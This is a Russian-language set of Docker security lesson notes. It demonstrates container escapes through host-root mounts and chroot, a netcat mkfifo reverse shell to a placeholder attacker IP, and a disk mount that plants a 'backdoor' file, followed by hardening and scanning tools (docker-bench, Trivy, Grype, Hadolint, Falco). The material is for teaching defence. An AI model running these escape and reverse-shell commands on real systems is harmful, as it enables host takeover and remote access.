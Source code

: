 # Урок 1

Устанавливаем docker и docker-compose (если еще не установлены)

```
apt-get update && apt-get install docker.io && apt-get install docker-compose
apt-get install git
```
Клонируем репозиторий:


Запускаем "плохой контейнер":
```
cd bad_container
docker-compose up -d 
```

Запускаем контейнер "внутри контейнера":
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ЗЛОУМЫШЛЕННИКА 4444 > /tmp/f
```

Запускаем "хороший контейнер":
```
cd good_container
docker-compose up -d 
```

Запускаем контейнер "внутри" контейнера:
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ЗЛОУМЫШЛЕННИКА 4444 > /tmp/f
```

Запускаем "очень плохой контейнер"
```
cd very_bad_container
docker-compose up -d 
```

```
mkdir /host_root
mount /dev/sda1 /host_root
echo "Backdoor installed!" > /host_root/tmp/backdoor.txt
```

Запускаем "очень хороший контейнер"
```
cd very_good_container
docker-compose up -d 
```

Проверяем
```
touch /tmp/testfile
chown appuser:appuser /tmp/testfile

date --set "2025-01-01"
```

CAP_SYS_TIME - отсутствует поэтому время изменить не удалось

# Урок 2
```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```

# Урок 3 

Trivy
Проверка образов
```
docker run --rm aquasec/trivy image <имя_образа>
```
Проверка конфигурации
```
docker run --rm -v $(pwd):/project aquasec/trivy config /project/Dockerfile
```

Grype
```
docker run --rm anchore/grype <имя_образа>
```

Hadolint
```
docker run --rm -i hadolint/hadolint < Dockerfile
```
# Урок 4

Falco
```
curl -fsSL https://falco.org/repo/falcosecurity-packages.asc | \
sudo gpg --dearmor -o /usr/share/keyrings/falco-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/falco-archive-keyring.gpg] https://download.falco.org/packages/deb stable main" | \
sudo tee -a /etc/apt/sources.list.d/falcosecurity.list

sudo apt-get install apt-transport-https

apt-get update -y

FALCO_FRONTEND=noninteractive apt-get install -y falco
```
